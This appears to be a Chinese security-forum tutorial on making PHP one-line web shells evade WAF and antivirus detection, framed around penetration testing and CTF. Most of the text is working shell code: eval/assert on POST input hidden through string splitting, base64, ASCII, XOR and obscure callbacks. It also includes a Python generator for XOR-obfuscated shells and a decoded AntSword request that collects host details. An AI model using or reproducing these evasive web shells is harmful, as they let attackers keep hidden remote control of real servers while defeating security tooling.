


# php木马的混淆免杀探究-先知社区

> **来源**: https://xz.aliyun.com/news/16460  
> **文章ID**: 16460

---

## 前言

在渗透测试或CTF竞赛中，面对Web应用防火墙（WAF）的防护，普通的一句话木马（Web Shell）通常会被检测出来。WAF的作用是监测并阻止恶意的HTTP请求和输入，因此要成功渗透并避免被检测，**一句话木马免杀**是非常重要的一项技能。

## 静态免杀

静态免杀主要通过修改代码，使得其中的关键字或可疑函数变得不可识别。以下是一些常见的静态免杀方法，使用它们可以隐藏代码中的敏感部分，达到绕过WAF、反病毒软件或其他检测工具的目的

常见php一句马

```
<?php @assert($_POST['x']);?>
```

### 关键字隐藏

#### 拆解合并

通过将关键字拆分成多个部分，然后动态拼接, 这种方式已经很难奏效了

```
<?php
    $ch = explode(".","hello.ass.world.er.t");
    $c = $ch[1].$ch[3].$ch[4]; //assert
    $c($_POST['x']);
?>

```

放入二维数组

```
<?php

$f = substr_replace("systxx", "em", 4);

$z = array($arrayName = ($arrayName = ($arrayName = array('a' => $f('whoami')))));

var_dump($z);

```

#### 利用各种函数和编码

通过对代码进行编码或加密，再通过解码或反转编码的方式恢复原来的功能，可以有效地绕过WAF和反病毒软件的检测。常见的编码手段包括 Base64、ROT13 编码，利用各种函数如array\_map、array\_key、preg\_replace来隐藏关键字  
比如rot13

```
<?php

$c = str_rot13('n!ff!re!nffreg');
echo $c . "\n"; //a!ss!er!assert
$str = explode('!', $c)[3];
echo $str; //asert

```

base64

```
<?php
$f = base64_decode("YX____Nz__ZX__J0");  //解密后为assert高危函数
$f($_POST[aabyss]);                      //assert($_POST[aabyss]);
?>

```

ascii编码

```
<?php
//ASCII编码解密后为assert高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
$f($_POST['aabyss']);                //assert($_POST['aabyss']);
?>

```

array\_map实例

```
<?php $letters = array('a', 's', 's', 'e', 'r', 't');
$c = implode(array_map('strtolower', $letters)); 
// 使用array_map拼接assert $c($_POST['x']); ?>

```

str\_replace实例

```
<?php

$str = 'a';
$str = str_replace('a', 'a', $str);
$str .= 's';
$str .= 's';
$str .= 'e';
$str .= 'r';
$str .= 't';

$str($_POST['x']);

```

#### 异或绕过

这里可以参考 <https://github.com/yzddmr6/webshell-venom>，想法也很简单，就是利用了php的亦或来生成所需要的字母。比如  
`"Y"^"\x38"`的结果就是a，同样的生成assert即可。

```
<?php
$_StL="Y"^"\x38";
$_ENr="T"^"\x27";
$_ohw="^"^"\x2d";
$_gpN="~"^"\x1b";
$_fyR="g"^"\x15";
$_pAs="H"^"\x3c";

$c=$_StL.$_ENr.$_ohw.$_gpN.$_fyR.$_pAs;

```

放一下python脚本来生成异或绕过免杀马

```
import random

def random_keys(len):
    # 生成随机len长的字符串
    str = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))

def random_var(len):
    # 生成随机变量名
    str = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))
def xor(c1,c2):
    # 字符亦或，返回16进制
    return hex(ord(c1)^ord(c2)).replace('0x',r"\x")


def generate(target):
    key = random_keys(len(target))
    func_line = ''
    call = '$target='
    for i in range(0,len(target)):
        enc = xor(target[i],key[i])
        var = random_var(3)
        func_line += f'$_{var}="{key[i]}"^"{enc}";'
        func_line += '\n'
        call += '$_%s.' % var
    call = call.rstrip('.') + ';'
    print(func_line)
    print(call)

if __name__ == '__main__':
    target = input('input target to generate:\r\n') # array_uintersect_uassoc
    generate(target)

```

使用效果如下



### 将关键操作隐藏在各种类、函数中

将关键字或操作分散在多个函数、类或变量中减少被静态分析工具（如WAF）检测到的机会

将关键操作分散到多个函数中

```
<?php
function getPart($str, $i) {
    return substr($str, $i, 1);
}

function combineParts() {
    return getPart('a', 0) . getPart('s', 0) . getPart('s', 0) . getPart('e', 0) . getPart('r', 0) . getPart('t', 0);
}

$c = combineParts();
@$c($_POST['x']);
?>

```

使用对象和类来隐藏关键字

```
<?php
class  Test

{
    public $config = '';
    function __destruct()

    {
        $ch = explode(".", "hello.ass.world.er.rt.e.saucerman");
        $c = $ch[1] . $ch[5] . $ch[4];
        @$c($this->config);
    }
}

$test = new Test();
@$test->config = $_POST['x'];

```

### 使用冷门回调函数

像`eval`，`assert`的关键字作为函数名称很显然是要受waf重点照顾的，使用冷门回调函数以及混淆手段，实际上是在 **绕过WAF** 和 **反病毒检测** 时常用的策略

#### array\_uintersect\_uassoc

在 PHP 中，`array_uintersect_uassoc` 是一个比较冷门的函数

`array_uintersect_uassoc(array $array1, array $array2, callable $value_compare_func, callable $key_compare_func)`

* **$array1, $array2**：两个数组，函数会计算这两个数组的交集。
* **$value\_compare\_func**：一个自定义函数，用来比较数组值的回调函数。
* **$key\_compare\_func**：一个自定义函数，用来比较数组键的回调函数。

这个函数会返回两个数组的交集，基于提供的比较函数来进行比较。

用了array\_uintersect\_uassoc函数来回调assert，并且做了异或处理来隐藏关键字，是不会被检测出来的。

```
<?php
function myfunction_key($a,$b){
    if ($a===$b){
        return 0;
    }
    return ($a>$b)?1:-1;
}
class rtHjmCdS{
    public $fHfoj;
    public $fDaGv;  
    public $HgAjSd; 
    function __construct(){

        $_xlr="J"^"\x2b";
        $_Nbv="V"^"\x25";
        $_cfh="T"^"\x27";
        $_PdK="I"^"\x2c";
        $_zJQ="+"^"\x59";
        $_RgD="="^"\x49";
        $this->fDaGv=$_xlr.$_Nbv.$_cfh.$_PdK.$_zJQ.$_RgD;

        $_fLd="a"^"\x0";
        $_wOK="j"^"\x18";
        $_tAH="U"^"\x27";
        $_HeV="J"^"\x2b";
        $_cyo="-"^"\x54";
        $_iSW="F"^"\x19";
        $_jYS="/"^"\x5a";
        $_BFt="h"^"\x1";
        $_TRn="p"^"\x1e";
        $_izx="k"^"\x1f";
        $_gMz="X"^"\x3d";
        $_TNu="<"^"\x4e";
        $_UiE="v"^"\x5";
        $_iHI="q"^"\x14";
        $_LIK="m"^"\xe";
        $_Yey="Z"^"\x2e";
        $_lMr="="^"\x62";
        $_WOI="+"^"\x5e";
        $_FQy="u"^"\x14";
        $_sjC="d"^"\x17";
        $_mOr=">"^"\x4d";
        $_Txf="*"^"\x45";
        $_PmW="O"^"\x2c";
        $this->HgAjSd=$_fLd.$_wOK.$_tAH.$_HeV.$_cyo.$_iSW.$_jYS.$_BFt.$_TRn.$_izx.$_gMz.$_TNu.$_UiE.$_iHI.$_LIK.$_Yey.$_lMr.$_WOI.$_FQy.$_sjC.$_mOr.$_Txf.$_PmW;
        }

    function __destruct(){

        $Hfdag = $this->HgAjSd; //'array_uintersect_uassoc'
        $fdJfd = $this->fDaGv; // 'assert'
        //array_uintersect_uassoc(array($_POST[k]),array(''),'assert','strstr');
        @$Hfdag(array($this->fHfoj),array(''),$fdJfd,'myfunction_key');
    }
}
$jfnp=new rtHjmCdS();
@$jfnp->fHfoj=$_REQUEST['css'];
?>

```

常见的回调函数如下：

```
call_user_func_array()

call_user_func()

array_filter()

array_walk()

array_map()

registregister_shutdown_function()

register_tick_function()

filter_var()

filter_var_array()

uasort()

uksort()

array_reduce()

array_walk()

array_walk_recursive()

```

### 简单自定义函数

这个要与其他的姿势进行结合，目前没办法通过简单自定义函数进行免杀

```
<?php
function out($b)
{
    return $b;
}
function zhixin($a)
{
    return system($a);
}
function post()
{
    return 'whoami';
}

function run()
{
    return out('zhixin')(out(post()));
}
run();

```

### 读取字符串绕过

用到读取注释的函数

```
ReflectionClass::getDocComment

```

例子如下：

```
<?php
/**
 * system('whoami');
 * */
class User {}
$user = new ReflectionClass('User');
$comment = $user->getDocComment();
echo $comment;
echo "\n";
$f = substr($comment, 8, 17);
echo $f;
eval($f);

```

### 读取数据库

可以通过 `file_put_contents` 文件写入函数写入一个Sqlite的数据库

```
$datatest = "[文件的base64编码]";
file_put_contents('./要写入的文件名', base64_decode($datatest));

```

然后通过PHP读取数据库内容提取高危函数，从而达到WebShell免杀效果

```
$path = "数据库文件名"

$db = new PDO("sqlite:" . $path);

$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();

$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['b']);

```

测试绕过D盾



## 动态免杀

要绕过流量监测，尤其是 WAF 的检测，我们可以通过对木马的动态行为、函数和关键字进行混淆和编码

以蚁剑为例，看下怎么绕过流量的动态监测  
假设我们要处理的木马如下所示：

```
<?php
class Test {
    public $name = '';
    function __destruct(){
        @eval("$this->name");
    }
}

$test = new Test();
$c = @$_POST['css'];
$test->name = $c;

```

在蚁剑添加木马后，我们用burp来抓第一个请求包来看它发了什么内容：

```
POST /1.php HTTP/1.1
Host: ip
Content-Type: application/x-www-form-urlencoded
Content-Length: 985
Connection: close

css=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22ae2ea%22%3Becho%20%40asenc(%24output)%3Becho%20%22348cb%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B
```

解个码：

关闭错误显示（`display_errors` 设置为 `0`），并且将脚本执行时间限制设置为无穷大（`set_time_limit(0)`），使得脚本可以长时间运行而不会被超时终止。

```
<?php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
}
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "ae2ea";
    echo @asenc($output);
    echo "348cb";
}
ob_start();

try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") {
        $D = dirname($_SERVER["PATH_TRANSLATED"]);
    }
    $R = "{$D}    ";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) {
            if (is_dir("{$L}:")) {
                $R .= "{$L}:";
            }
        }
    } else {
        $R .= "/";
    }
    $R .= "    ";
    $u = function_exists("posix_getegid")
        ? @posix_getpwuid(@posix_geteuid())
        : "";
    $s = $u ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "    {$s}";
    echo $R;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}
asoutput();
die();

```

代码主要用来获取当前目录和用户信息
